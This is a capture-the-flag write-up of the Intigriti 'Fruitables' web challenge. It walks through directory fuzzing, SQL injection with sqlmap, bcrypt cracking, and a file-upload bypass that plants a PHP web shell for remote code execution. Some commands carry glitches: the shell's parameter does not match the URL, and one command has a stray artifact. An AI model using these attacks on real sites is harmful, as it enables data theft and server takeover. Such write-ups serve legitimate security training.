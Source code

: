 # Fruitables [77 solves]
created by `Invincible`

## Description

> A website about fruit? Probably no vulnerabilities there.. Move along everybody!
> https://ctfd-status.ctf.intigriti.io/fruitables

## Flag

`INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}`

## Solution

When we visit the given website we land on a page which seems to be an online store for selling fruits

![initial webpage](image-1.png)

When clicking around in the website we find 4 endpoints:

```
https://fruitables-3.ctf.intigriti.io/shop.php
https://fruitables-3.ctf.intigriti.io/shop-detail.php
https://fruitables-3.ctf.intigriti.io/checkout.php
https://fruitables-3.ctf.intigriti.io/contact.php
```

Three directories do not appear to contain any functionality except for the checkout page which submits a `POST` request

![POST request](image-2.png)

Upon investigating this request further it does not appear to be vulnerable.

Moving on I decided to perform some directory bruteforcing. To my initial attack I added .php extension because the website is using PHP (this conclusion was made because endpoints that we found contains .php extension)

Command:
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -u https://fruitables-3.ctf.intigriti.io/FUZZ -e .php
```

Output:
![output of ffuf](image-3.png)

In the output we see some interesting directories and endpoints. One of the endpoints is `account.php`

![account.php](image-4.png)

After trying to register the account we get an error `Sorry, registration is currently closed!` and we are being thrown into a new endpoint 
https://fruitables-3.ctf.intigriti.io/auth/fruitables_login.php

![login page](image-5.png)

After uncussesful login while trying to use some common credintials I tried some common attacks such as SSTI (Server Side Template Injection) or SQLI (SQL Injection). Surprizingly, upon submitting a backtick ' character an SQL error page shows up indicating that the website might be vulnerable to SQL injection
![SQL error](image-6.png)

We confirm the SQL injection using `sqlmap` tool

Command:
```bash
sqlmap -u "https://fruitables-3.ctf.intigriti.io:443/auth/fruitables_login.php" --data="username=test&password=sick" --technique=E --batch
```

Output:
![SQLI](image-7.png)

Upon confirming that the website is indeed vulnerable to error based SQLI I listed all databses and tables from the SQL databse. One table stood out which was `users` table in `users` database so I extracted it and got some usernames and hashes

Command:
```bash
sqlmap -u "https://fruitables-3.ctf.intigriti.io:443/auth/fruitables_login.php" --data="username=test&password=sick" --batch -T [60/373]
dump
```

Output:
![users and hashes](image-8.png)

After getting the hashes I picked to crack the administrator which seemed like it was the most valuable hash. Its type was `bcrypt` 

Command:
```bash
hashcat -a 0 hashes/hashes.txt rockyou.txt -m 3200 --show
```

Luckily, almost immediatly the hash cracks and the password is `futurama`

Now we have a valid username and password: `tjfry_admin:futurama`

After logging in to the website we see that there is a file upload functionality and after trying to upload a `.txt` file a message shows up stating that we can only upload JPEG and PNG files
![upload](image-9.png) 


After that I tried attacking the application by uploading a php file and masking it as much as possible so hopefully application accepts the file:

* Uploaded a normal PNG and intercepted the request with BurpSuite
* Added `.php` extension to the filename
* Content type is set to `image/png`
* Deleted most part of the image's content and only kept PNG's magic bytes which hexadecimal values are `89 50 4E 47 0D 0A 1A 0A`
* Added a PHP code which would allow me to execute commands on the website:

```php
<?php
system($_GET['cmd']);
?>
```

* Finally I sent the request and our PHP script has uploaded successfuly!
![uploaded PHP](image-10.png)

After uploading the PHP we can test it by going to the directory that we discovered earlier `uploads` and pasting in the file name with parameter `intigriti` and our command

Command:
```
https://fruitables-3.ctf.intigriti.io/uploads/56dd93fffc446be30e6735535081686f.png.php?intigriti=id
```

Output:
![RCE](image-11.png)

Great! Now we have remote code execution and by looking around we find that the flag is stored in `/flag_poxm7AQwN77Lj2PU.txt`
![flag](image-12.png)

> INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}

### BONUS

When trying to register an account we are being redirected to the page

https://fruitables-3.ctf.intigriti.io/auth/fruitables_login.php?error=Sorry%2C+registration+is+currently+closed%21

Upon realizing that the error code is being displayed on the website, I tried changing the error to something else and it worked!
![intigriti](image-13.png)

After trying some attacks I found that the website is vulnerable to XSS (Cross Site Scripting) attack which could have been exploited if there were any other functionality
![XSS](image-14.png)

> Written by NitrogenXP